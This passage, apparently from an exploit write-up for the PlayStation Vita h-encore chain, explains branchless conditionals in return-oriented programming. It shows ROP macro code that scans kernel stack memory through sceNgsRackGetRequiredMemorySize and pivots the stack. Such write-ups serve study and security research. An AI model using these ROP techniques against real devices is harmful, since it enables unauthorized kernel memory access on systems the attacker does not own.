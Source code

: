 The mentioned properties say that the product of any number times zero is zero and the product of any number times one is itself, therefore if we set `tmp ` as the product of `cmp_eq(ret, SCE_NGS_ERROR_INVALID_PARAM)` times `loop_start - loop_end`, we get our desired logic:

```c
sp = (cmp_eq(ret, SCE_NGS_ERROR_INVALID_PARAM) * (loop_start - loop_end)) + loop_end;
```

Note that this is only one of the few possibilities and we could also have realized it by exploiting the properties of logical conjunction:

```c
sp = ((cmp_eq(ret, SCE_NGS_ERROR_INVALID_PARAM) - 1) & (loop_end - loop_start)) + loop_start;
```

Finally in ROP it looks like this (it's cute but check out [mul_add_rvv](https://github.com/TheOfficialFloW/h-encore/blob/master/include/macros.S#L143)):

```c
  // Iterate through kernel memory
  loop_start:
    // kstack_base += KSTACK_BASE_STEP
    load_add_store kstack_base, kstack_base, KSTACK_BASE_STEP

    // rack_desc.pVoiceDefn = kstack_base ^ SCE_NGS_VOICE_DEFINITION_XOR
    xor_rv   ret, SCE_NGS_VOICE_DEFINITION_XOR
    store_rv ret, rack_desc + 0x00

    // Call sceNgsRackGetRequiredMemorySize on the xor'ed kstack_base
    load_call_lvv_2 sceNgsRackGetRequiredMemorySize, sys_handle, rack_desc, buffer_info + 0x04

    // Compare ret with SCE_NGS_ERROR_INVALID_PARAM and return 1 if equal, else 0
    cmp_eq_rv ret, SCE_NGS_ERROR_INVALID_PARAM

    // ret = ret * (loop_start - loop_end) + loop_end
    mul_add_rvv ret, loop_start - loop_end, loop_end

    // Stack pivot
    store_rv         ret, ldm_data_r0 + 0x0c
    set_r0_r2_ip_sp_lr_pc ldm_data_r0
  loop_end:
```

Note that we are using the macro `load_call_lvv_2` here instead of `load_call_lvv`. The difference is that the second version skips some words before the call:

```c
  .word add_sp_14_pop_pc                   // pc
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
  .word 0xDEADBEEF                         // dummy
```

This is necessary because when calling subroutines in ROP, the stack gets corrupted due to the subroutine's stack allocations such as for the prologue, where callee saved registers are pushed onto stack (side mark: if you call a syscall, then the user stack remains untouched). Normally this does not matter, but in a loop we want to reuse the gadgets. In our case the stack is corrupted by `push.w {r4, r5, r6, r7, r8, lr}` in `sceNgsRackGetRequiredMemorySize()`, since it is to be exact only a wrapper that calls the actual syscall `sceNgsRackGetRequiredMemorySizeInternal()`.
